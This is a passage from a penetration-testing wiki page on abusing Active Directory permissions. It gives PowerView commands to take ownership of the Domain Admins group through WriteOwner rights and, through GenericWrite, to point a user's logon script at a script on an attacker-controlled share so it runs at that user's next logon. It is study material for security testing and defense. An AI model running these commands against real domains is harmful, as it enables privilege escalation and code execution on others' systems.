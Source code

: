 More info:

* [https://malicious.link/post/2017/reset-ad-user-password-with-linux/](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)
* [https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN)
* [https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/e28bf420-8989-44fb-8b08-f5a7c2f2e33c](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-samr/e28bf420-8989-44fb-8b08-f5a7c2f2e33c)

## WriteOwner on Group

Note how before the attack the owner of `Domain Admins` is `Domain Admins`:

![](../../../.gitbook/assets/17.png)

After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../../.gitbook/assets/18.png)

...we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```csharp
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
//You can also use the name instad of the SID (HTB: Reel)
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```

![](../../../.gitbook/assets/19.png)

## GenericWrite on User

```csharp
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../../.gitbook/assets/20.png)

`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```csharp
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
